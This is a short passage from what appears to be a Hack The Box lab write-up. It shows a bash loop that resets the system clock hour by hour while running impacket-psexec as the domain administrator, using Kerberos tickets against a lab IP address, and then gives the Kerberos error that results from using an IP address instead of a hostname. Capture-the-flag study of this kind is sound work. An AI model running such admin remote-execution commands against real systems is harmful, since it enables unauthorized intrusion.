- Time in my host

![](./IMG/69.png)

> To confirm which is correct to correspond to target's time
> I tried to use for loop in bash to check 
> BTW, at first, I use ip address not host, if I solve the time problem, this part will provide a different error message 

```
for i in $(seq 00 24); do date -s $i:00:00; impacket-psexec htb.local/administrator@10.129.95.210 -k -no-pass; done
```

![](./IMG/70.png)

> If time is correct, but the host is ip address not a domain name, 
> it will response the following error 

```
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

![](./IMG/71.png)
